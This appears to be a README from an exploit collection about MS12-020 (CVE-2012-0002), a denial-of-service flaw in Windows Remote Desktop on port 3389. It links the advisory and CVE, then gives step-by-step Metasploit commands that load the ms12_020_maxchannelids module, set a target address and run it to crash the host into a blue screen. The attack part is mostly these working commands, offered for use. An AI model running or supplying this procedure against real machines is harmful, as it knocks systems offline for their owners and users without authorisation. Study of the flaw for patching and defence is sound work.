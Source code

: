 # MS12-020

Blue Screen of Death 
```
端口：3389
远程桌面协议RDP拒绝访问漏洞(MS12-020)

```

Vulnerability reference:
 * [MS12-020](https://technet.microsoft.com/library/security/ms12-020)
 * [CVE-2012-0002](http://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2012-0002)  

## msf Usage  
[YouTube-MS12-020 RDP Vunlnerability](https://www.youtube.com/watch?v=8FhEK296jPg)  

```
msf > search ms12_020
msf > use auxiliary/dos/windows/rdp/ms12_020_maxchannelids
msf auxiliary(ms12_020_maxchannelids) > set RHOST 192.168.1.35
msf auxiliary(ms12_020_maxchannelids) > run
```

![msf](msf.png)  
![blue-death](blue-death.png)

## References
* [msf利用远程桌面协议RDP拒绝访问漏洞(MS12-020)](http://blog.sina.com.cn/s/blog_4bf0ab590101gsq7.html)
* [cve-2012-0002（ms12-020）深度分析报告](http://max.book118.com/html/2016/0314/37644373.shtm)